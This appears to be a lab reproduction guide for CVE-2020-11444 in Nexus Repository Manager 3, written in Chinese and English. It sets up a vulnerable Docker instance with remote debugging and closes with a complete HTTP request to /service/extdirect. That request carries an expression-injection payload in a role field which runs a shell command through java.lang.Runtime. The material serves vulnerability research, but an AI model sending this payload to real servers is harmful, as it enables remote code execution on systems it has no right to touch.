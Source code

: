 CVE-2020-11444 Nexus Repository Manager 3

影响版本：<= 3.21.2
Affected Versions:  All previous Nexus Repository Manager 3 OSS/Pro versions up to and including 3.21.2

Fixed in Version:  Nexus Repository Manager OSS/Pro version 3.22.0

### 1. 拉取镜像
```
docker pull sonatype/nexus3:3.21.2
```

### 2. 创建nexus数据目录
```
mkdir /your-dir/nexus-data && chown -R 200 /your-dir/nexus-data
```

### 3. 运行nexus docker镜像
```
docker run -d --rm -p 8081:8081 -p 5050:5050 --name nexus -v /your-dir/nexus-data:/nexus-data -e INSTALL4J_ADD_VM_PARAMS="-Xms2g -Xmx2g -XX:MaxDirectMemorySize=3g  -Djava.util.prefs.userRoot=/nexus-data -agentlib:jdwp=transport=dt_socket,server=y,suspend=n,address=5050" sonatype/nexus3::3.21.2
```

### 4. github下载源码 & idea远程debug
```
git clone https://github.com/sonatype/nexus-public.git
git checkout -b release-3.21.0-05 origin/release-3.21.0-05
```
idea创建远程debug-启动
```
-agentlib:jdwp=transport=dt_socket,server=y,suspend=n,address=5050
```
漏洞点在 org.sonatype.nexus.security.internal.rest.UserApiResource#changePassword 接口

新版本在 org.sonatype.nexus.security.internal.DefaultSecuritySystem#changePassword(java.lang.String, java.lang.String, boolean) 修复

### 5. 登陆任何一个账号

### 6. 调用更新role接口
数据包：
```
POST /service/extdirect HTTP/1.1
Host: 127.0.0.1:8081
Content-Length: 301
accept: application/json
Sec-Fetch-Dest: empty
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_2) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/80.0.3987.149 Safari/537.36
NX-ANTI-CSRF-TOKEN: 0.16936373694860252
Content-Type: application/json
Origin: http://127.0.0.1:8081
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Referer: http://127.0.0.1:8081/swagger-ui/?_v=3.21.1-01&_e=OSS
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9
Cookie: jenkins-timestamper-offset=-28800000; Hm_lvt_8346bb07e7843cd10a2ee33017b3d627=1583249520; NX-ANTI-CSRF-TOKEN=0.16936373694860252; NXSESSIONID=4e5437b3-7755-4784-bda6-d004e8f589fb
Connection: close

{"action":"coreui_User","method":"update","data":[{"userId":"www","version":"2","firstName":"www","lastName":"www","email":"www@qq.com","status":"active","roles":["$\\A{''.getClass().forName('java.lang.Runtime').getMethods()[6].invoke(null).exec('touch /tmp/cve-2020-10204')}"]}],"type":"rpc","tid":9}
```